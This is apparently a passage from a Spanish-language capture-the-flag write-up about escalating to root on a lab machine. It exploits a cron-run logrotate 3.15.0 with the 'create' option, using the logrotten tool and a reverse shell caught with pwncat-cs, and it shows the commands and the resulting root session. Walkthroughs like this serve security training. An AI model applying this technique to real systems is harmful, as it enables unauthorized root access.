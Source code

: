 ¡Hay un cronjob para `logrotate` en uso!

Sabemos que hay una manera de escalar privilegios con él, si se cumplen algunas condiciones...

¡Intentemos ver el archivo de configuración y la versión!

```bash
(remote) plot_admin@plotted-lms:/tmp$ ls -la /etc/logbackup.cfg
-rw-r--r-- 1 root root 86 Feb  6 03:29 /etc/logbackup.cfg

(remote) plot_admin@plotted-lms:/tmp$ cat /etc/logbackup.cfg
/home/plot_admin/.logs_backup/moodle_access {
    hourly
    missingok
    rotate 50
    create
}

(remote) plot_admin@plotted-lms:/tmp$ logrotate --version
logrotate 3.15.0

    Default mail command:       /bin/mail
    Default compress command:   /bin/gzip
    Default uncompress command: /bin/gunzip
    Default compress extension: .gz
    Default state file path:    /var/lib/logrotate.status
    ACL support:                no
    SELinux support:            no
```

¡¡Estupendo!! Tenemos la versión `3.15.0` (Vulnerable) y podemos leer el archivo de configuración, ¡el argumento `create` está en uso!

Si no sabe cómo explotar esta vulnerabilidad, [aquí hay una buena explicación al respecto](https://medium.com/r3d-buck3t/linux-privesc-with-logrotate-utility-219b3aa7476b).

Si no tiene ganas de leer tanto, aquí hay un breve resumen de lo que vamos a hacer:

Modificaremos el archivo (`/home/plot_admin/.logs_backup/moodle_access`) para que `logrotate` detecte este cambio y podamos obtener nuestra shell reversa. Para explotar esto, vamos a usar [logrotten](https://github.com/whotwagner/logrotten).

_Por cierto, creé una shell reversa con el nombre `shell.sh` en la carpeta actual. (Lo siento, olvidé el fragmento :/)_

```bash
======== Terminal 1 =========
(remote) plot_admin@plotted-lms:/tmp$ cp /home/plot_admin/.logs_backup/02.06.2022 /home/plot_admin/.logs_backup/moodle_access; ./logrotten -p shell.sh /home/plot_admin/.logs_backup/moodle_access
Waiting for rotating /home/plot_admin/.logs_backup/moodle_access...
Renamed /home/plot_admin/.logs_backup with /home/plot_admin/.logs_backup2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!

======== Terminal 2 =========
╰─ pwncat-cs -lp 1338                                                                                                                  ─╯
[01:13:10 PM] Welcome to pwncat 🐈!                                                                                        __main__.py:164
[01:13:58 PM] received connection from 10.10.37.208:51952                                                                       bind.py:84
[01:14:00 PM] 10.10.37.208:51952: registered new host w/ db                                                                 manager.py:957
(local) pwncat$ back
(remote) root@plotted-lms:/root# id; whoami;pwd; cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
root
```